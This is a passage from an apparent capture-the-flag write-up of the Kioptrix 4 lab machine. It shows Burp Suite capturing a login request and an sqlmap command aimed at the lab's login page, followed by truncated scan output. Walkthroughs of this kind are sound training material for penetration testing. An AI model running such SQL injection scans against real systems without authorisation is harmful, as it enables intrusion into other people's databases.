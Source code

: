 <figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix4/homepage.PNG" alt="">
  <figcaption>LigGoat secure Login</figcaption>
</figure>

Checking out the webserver, we're greeted with a login page. With nothing much to go on in the page source, let's see if there's an SQL Injection vulnerability.

My go-to tool for this is SQLMap, which can run a plethora of automated SQL Injecion tests.

But first, we need to catch the request so we know what to pass to SQLMap. Off to Burpsuite, we go.

Make sure to enable Burpsuite's proxy feature, and point your web browser to it.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix4/burp_intercept.PNG" alt="">
  <figcaption>Burp, ready to go.</figcaption>
</figure>

Back to the browser, let's submit a login request. I'll use 'admin' for the username and 'test' as the password.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix4/burp_catch.PNG" alt="">
  <figcaption>Burp caught our login request.</figcaption>
</figure>

We can forward this in a moment, but let's copy the POST data (the colored text).

## Are you afraid of needles?

Now we have SQLMap test each of the parameters for us. We'll use the form's action page that's present in the request. The POST data will go into the --data argument, and we'll specify POST as the request method.

I'm going to cut out a lot of the test output.

```bash
root@kali:~/Desktop/k4# sqlmap -u "http://10.0.2.14/checklogin.php" \
  --data "myusername=admin&mypassword=test&Submit=Login" \
  --method POST
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:46:59 /2019-02-02/

[16:46:59] [INFO] testing connection to the target URL
[16:46:59] [INFO] heuristics detected web page charset 'ascii'
[16:46:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:46:59] [INFO] testing if the target URL content is stable
[16:47:00] [INFO] target URL content is stable
[16:47:00] [INFO] testing if POST parameter 'myusername' is dynamic
[16:47:00] [WARNING] POST parameter 'myusername' does not appear to be dynamic
[16:47:00] [WARNING] heuristic (basic) test shows that POST parameter 'myusername' might not be injectable
...
[16:47:01] [WARNING] POST parameter 'myusername' does not seem to be injectable
[16:47:01] [INFO] testing if POST parameter 'mypassword' is dynamic
```